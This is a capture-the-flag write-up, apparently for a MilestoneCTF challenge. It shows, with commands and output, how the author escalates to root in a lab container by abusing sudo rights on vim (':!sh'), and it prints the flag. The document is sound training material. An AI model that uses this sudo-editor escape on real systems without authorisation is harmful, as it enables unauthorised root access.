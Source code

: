 # Escape from Santa House (exploit) (author: snn)

## Tools

No special tools needed, just an ssh client and nowadays one is already installed on both Kali Linux and Windows. Enthusiasts could also use PuTTy or OpenSSH :)

## Description

```shell
Santa locked some elves in his house. Help them and get the flag in /root folder and escape.

Use elf with Christmas2023 password for ssh connection.
```

## Task analysis & solution

We have these details and hints provided to us from the get go:

- user: **`elf`**
- password: **`Christmas2023`**
- the docker instance to connect to, which always has an address of 10.10.8.61 and an everchanging port

- A hint that the flag is in the **`/root`** folder

First thing is to connect with the given details:

```shell
ssh 10.10.8.61 -p <port> -l elf   
elf@10.10.8.61's password: 
```

```
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-56-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Wed Dec 20 20:11:26 2023 from 10.4.24.67
$
```

When I connected, I decided to take a look arround. Let's see who we are and what our home directory is:

```shell
$ pwd && whoami
/home/elf
elf
```

Nothing special there. Let's try to find some hidden items:

```shell
$ ls -a
.  ..  .cache  .local
```

Let's try to look deeper..

```shell
$ find .
./.local
./.local/share
./.local/share/nano
./.cache
./.cache/motd.legal-displayed
```

No files and no hidden data, let's try go as super user:
```shell
$ sudo find .
[sudo] password for elf: 
Sorry, user elf is not allowed to execute '/usr/bin/find .' as root on 7546eb54b93f.

$ sudo su -
[sudo] password for elf: 
Sorry, user elf is not allowed to execute '/usr/bin/su -' as root on 7546eb54b93f.
```

At this point, I needed to see what our user ***`elf`*** can actually do:

```shell
$ sudo -l
[sudo] password for elf: 
Matching Defaults entries for elf on 7546eb54b93f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User elf may run the following commands on 7546eb54b93f:
    (root) /usr/bin/vim
    (root) /usr/bin/nano
```

From the output above, we can see that we can run two programs with root access:
- nano
- vim

This is very promising! Both tools are editors and they can read files in root folder. Even better - since they have ***`root`*** access they can execute commands and even fancier - fire up a shell. We already know that the flag is hidden somewhere in the /root folder.

A quick search on the web tells us how ***`nano`*** and ***`vim`*** can browse folders and execute commands.

- for ***`vim`*** you can open shell by entering this command ***`:!sh`***
- for ***`nano`*** CTRL+T execute commands and prints their results in the editor

I decided to go with ***`vim`***:

```shell
# pwd && whoami
/home/elf
root
```

Now I'm 'gROOT' (:-)) and I and can do anything I want :-) Let's open the root folder, search and grab the flag.

```shell
# cd /root
# ls -a
.  ..  .bash_history  .bashrc  .local  .profile  .vim  .viminfo  flagishere.txt
# cat flagishere.txt
MilestoneCTF{security-misconfigurations-make-Santa-sad}
```

There are other ways if you like working in ***`vim`***, but I hate that app :-)

The flag is **MilestoneCTF{security-misconfigurations-make-Santa-sad}**


